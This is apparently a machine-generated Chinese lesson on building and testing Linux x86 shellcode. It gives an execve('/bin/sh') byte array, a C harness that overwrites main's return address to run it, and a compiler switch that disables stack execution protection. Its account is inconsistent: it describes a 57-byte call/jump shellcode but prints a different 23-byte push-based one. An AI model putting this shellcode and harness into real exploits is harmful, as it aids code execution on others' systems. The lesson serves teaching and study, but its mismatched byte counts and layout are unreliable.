





# 075：Shellcode构造方法 🛠️

在本节中，我们将学习如何将Shellcode编译为汇编例程并使其执行。我们将通过一系列步骤，从编译内联汇编代码开始，最终生成并测试一个能启动新Shell的字符数组。

## 概述

我们将首先编译之前子模块中的内联汇编代码，然后通过调试器分析目标代码，提取出Shellcode的字节序列。接着，我们会将这些字节格式化为一个C语言字符数组，并编写一个测试程序来验证Shellcode的功能。最后，我们会讨论在测试过程中可能遇到的操作系统保护机制及其解决方法。

## 步骤详解

### 1. 编译内联汇编

首先，需要编译上一个子模块中的内联汇编代码。我们假设源文件名为 `scasm.c`。



```bash
gcc -o scasm scasm.c
```

### 2. 调试与反汇编

接下来，在生成的目标代码上启动调试器，并对 `main` 函数进行反汇编。

```bash
gdb ./scasm
(gdb) disassemble main
```

在反汇编输出中，跳过帧管理指令，找到 `jump` 指令。该指令的地址将为我们提供Shellcode的起始字节。

### 3. 定位Shellcode结尾



为了找到Shellcode的结尾，我们需要定位字符串。反汇编器可能不会直接显示字符串，但我们知道字符串长度为7字节。因此，我们可以将 `call` 指令后下一条指令的地址加上7，得到字符串的结尾地址，再加1字节以包含空字符。

计算此地址与 `jump` 指令地址之间的差值，得出Shellcode的总长度为57字节。

### 4. 提取Shellcode字节

使用调试器命令以十六进制格式显示这57个字节。

```bash
(gdb) x/57xb 0x080483B7
```

这里的地址 `0x080483B7` 是 `jump` 指令的地址。在输出的字节转储中，最后八个字符对应字符串 `/bin/sh`。

### 5. 格式化Shellcode

将这57个字节格式化为十六进制，用于初始化一个名为 `shellcode` 的字符数组，以便在C程序中使用。

```c
char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

### 6. 编写测试代码

由于Shellcode是自修改代码（修改自身的字符串空间），而操作系统不允许在代码段执行此类操作，因此我们将Shellcode放置在栈上而非代码段进行测试。

以下测试代码通过修改执行流来运行Shellcode，使用了我们在“修改执行流”子模块中学到的技术。

```c
#include <stdio.h>
#include <string.h>

char shellcode[] = "..."; // 上述57字节的Shellcode

int main() {
    int *ret;
    ret = (int *)&ret + 2; // 跳过旧的帧指针，指向main的返回地址
    *ret = (int)shellcode; // 修改返回地址，使其指向Shellcode
    return 0;
}
```

### 7. 处理操作系统保护

在Kali等系统上编译并运行测试程序时，可能会遇到段错误。这是因为操作系统启用了数据执行保护（DEP），防止代码在栈上执行。

为了解决这个问题，需要在编译时添加特定开关以关闭栈保护。

```bash
gcc -z execstack -o test test.c
```

### 8. 测试与验证

编译并运行测试程序后，如果一切正常，将启动一个新的Shell。

```bash
./test
$ whoami
kali
```



## 执行过程分析



当Shellcode执行时，栈上的情况如下：

1.  Shellcode被放置在字符串空间中，第一条指令开始执行。
2.  帧指针被管理，栈指针下移，为整型指针 `ret` 分配栈空间。
3.  第二条指令获取栈上局部变量 `ret` 的地址，并将其值增加2。由于 `ret` 是指针，包含一个地址，因此在汇编代码中实际增加的是8字节（两个4字节地址）。
4.  指令执行后，`ret` 中的值变为 `main` 函数的返回地址。
5.  最后一条指令将 `ret` 所指向的整数值修改为Shellcode第一个字节的地址。这样，当 `main` 函数结束时，将执行Shellcode而非返回。

## 总结

本节课中，我们一起学习了Shellcode的构造与测试方法。我们首先将内联汇编代码编译为目标文件，然后通过调试器提取出Shellcode的字节序列。接着，我们将这些字节格式化为C语言字符数组，并编写了一个测试程序来验证其功能。在测试过程中，我们遇到了操作系统的数据执行保护机制，并通过编译器开关解决了这一问题。最终，我们成功运行了Shellcode并启动了新的Shell。



下一节，我们将讨论空字符在缓冲区溢出中的特殊作用，这是将所有内容整合起来创建缓冲区溢出示例前的最后一步。